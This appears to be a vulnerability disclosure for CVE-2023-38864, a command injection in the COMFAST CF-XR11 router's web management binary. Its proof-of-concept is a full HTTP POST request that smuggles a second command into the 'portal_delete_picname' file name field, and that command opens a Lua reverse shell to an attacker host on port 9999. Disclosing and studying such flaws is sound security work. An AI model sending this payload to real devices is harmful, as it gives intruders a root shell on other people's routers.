 # CVE-ID

[cve-2023-38864](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-38864)

# Information

**Vendor of the products:**  COMFAST

**Vendor's website:**  http://www.comfast.cn/

**Reported by:**  TTY([tianyutu00@gmail.com](tianyutu00@gmail.com)) & w4rd3n(w4rd3n.iadc@gmail.com)

**Affected products:** COMFAST CF-XR11

**Affected firmware version:** V2.7.2

**Firmware download address:** http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar

# Overview

`COMFAST CF-XR11 V2.7.2` has a command injection vulnerability detected at function `sub_41171C`. Attackers can send `POST` request messages to `/usr/bin/webmgnt` and inject evil commands into parameter `portal_delete_picname` to execute arbitrary commands by URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file`.

# Product parameters

`COMFAST CF-XR11 V2.7.2` is an 1800Mbps smart MESH router. The test version(the newest version) here is `V2.7.2`.

<img src="imgs/1.png" style="zoom:67%;" />

# Vulnerability details

The vulnerability is detected at `/usr/bin/webmgnt`.

In the function `sub_41171C`, the program uses function `blobmsg_parse` to obtain the content of parameter `portal_delete_picname`  which is sent by `POST` request. On line 19, the attacker can complete command execution by controlling the `portal_delete_picname` variable.

![](imgs/2.png)

# POC

Send the following to the URL `http://192.168.0.1/cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file` by `POST` request.

```
POST /cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file HTTP/1.1
Host: 192.168.0.1
Content-Length: 180
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: appliation/json
Origin: http://192.168.0.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=f200a8c0-581cfffffff8ffffff90ffffffd044-65dafb23
Connection: close

{"portal_delete_picname":"1.img && echo \"`lua -e \"require('socket');require('os');t=socket.tcp();t:connect('192.168.0.228','9999');os.execute('/bin/sh -i <&3 >&3 2>&3 &');\"`\""}
```

# Attack Demo

After sending the POC, the malicious command will be executed and we can get the router's shell.

![](imgs/3.png)

![](imgs/4.png)

